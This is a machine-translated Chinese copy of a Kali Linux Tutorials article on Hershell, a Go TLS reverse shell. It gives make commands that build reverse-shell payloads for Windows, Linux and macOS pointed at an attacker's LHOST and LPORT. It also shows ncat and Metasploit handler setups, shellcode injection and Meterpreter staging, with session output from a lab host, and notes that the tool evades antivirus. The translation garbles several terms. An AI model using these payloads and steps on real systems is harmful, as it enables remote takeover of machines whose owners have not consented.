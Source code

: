 # her Shell——简单的 TCP 反向外壳，可以在多个系统上工作

> 原文：<https://kalilinuxtutorials.com/hershell-simple-tcp-reverse-shell/>

Hershell 是一个简单的用 [Go](https://golang.org) 编写的 TCP 反向 shell。它使用 TLS 来保护通信，并提供证书公钥指纹锁定功能，防止流量拦截。

支持的操作系统有:

*   **窗户**
*   **Linux**
*   **苹果操作系统**
*   **FreeBSD 和衍生品**

虽然 meterpreter 的有效载荷很大，但它们有时会被 AV 产品发现。因为它是用 Go 编写的，所以您可以针对所需的架构交叉编译源代码。

## **赫谢尔要求**

由于这是一个 Go 项目，您将需要遵循[官方文档](https://golang.org/doc/install)来设置您的 Golang 环境(使用 **`$GOPATH`** 环境变量)。

然后，只需运行 **`go get github.com/sysdream/hershell`** 来获取项目。

### **制造有效载荷**

为了简化，您可以使用提供的 Makefile。您可以设置以下环境变量:

*   `**GOOS**`:目标操作系统
*   `**GOARCH**`:目标架构
*   `**LHOST**`:攻击者的 IP 或域名
*   `**LPORT**`:监听端口

对于`**GOOS**`和`**GOARCH**`变量，可以在这里得到允许值[。](https://golang.org/doc/install/source#environment)

然而，`**Makefile**`中提供了一些辅助目标:

*   `**depends**`:生成服务器证书(反向 shell 需要)
*   `**windows32**`:构建一个 windows 32 位可执行文件(PE 32 位)
*   `**windows64**`:构建一个 windows 64 位可执行文件(PE 64 位)
*   `**linux32**`:构建一个 linux 32 位可执行文件(ELF 32 位)
*   `**linux64**`:构建一个 linux 64 位可执行文件(ELF 64 位)
*   `**macos32**`:构建一个 mac os 32 位可执行文件(Mach-O)
*   `**macos64**`:构建一个 mac os 64 位可执行文件(Mach-O)

对于那些目标，你只需要设置`**LHOST**`和 **`LPORT`** 环境变量。

**也可理解为[Firework——与微软工作区交互创建有效文件的工具](https://kalilinuxtutorials.com/firework-tool-interact-microsoft-workplaces/)**

### **使用外壳**

一旦执行，您将获得一个远程外壳。这个定制的交互式 shell 将允许您通过 Windows 上的`cmd.exe`或 UNIX 机器上的`/bin/sh`来执行系统命令。

支持以下特殊命令:

*   给你一个系统外壳(例如，允许你改变目录)
*   `**inject <base64 shellcode>**`:在同一个进程内存中注入一个 shellcode (base64 编码)，并执行它(目前仅限 Windows)。
*   `**meterpreter [tcp|http|https] IP:PORT**`:连接 multi/handler 从 metasploit 获取 stage2 reverse tcp、http 或 https meterpreter，并执行内存中的 shellcode(目前仅限 Windows)
*   `**exit**`:优雅地退出

## **Hershell 用法**

首先，您需要生成一个有效的证书:

```
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

##### **对于 windows:**

```
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

##### **对于 Linux:**

```
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

##### **苹果 OS X**

```
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## **例题**

### **基本用法**

可以使用各种工具来处理输入连接，例如:

*   socat
*   ncat
*   openssl 服务器模块
*   metasploit 多重处理程序(带有一个`**python/shell_reverse_tcp_ssl**`有效负载)

下面是一个关于`ncat`的例子:

```
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[hershell]> whoami
desktop-3pvv31a\lab
```

### **抄表员暂存**

**警告**:这目前只适用于 Windows 平台。

meterpreter staging 目前支持以下有效载荷:

*   `**windows/meterpreter/reverse_tcp**`
*   **`windows/x64/meterpreter/reverse_tcp`**
*   T2`**windows/meterpreter/reverse_http**`
*   T2`**windows/x64/meterpreter/reverse_http**`
*   **`windows/meterpreter/reverse_https`**
*   **`windows/x64/meterpreter/reverse_https`**

要使用正确的协议，只需指定想要使用的传输协议(tcp、http、https)

要使用 meterpreter 暂存功能，只需启动您的处理程序:

```
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

然后，在 **`hershell`** 中，使用`**meterpreter**`命令:

```
[hershell]> meterpreter https 172.16.122.105:8443
```

新的抄表员会话应弹出`**msfconsole**`:

```
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

[![](img//d861a9096555aeb1980fc054015933d7.png) ](https://github.com/sysdream/hershell) **鸣谢:罗南·克韦拉**
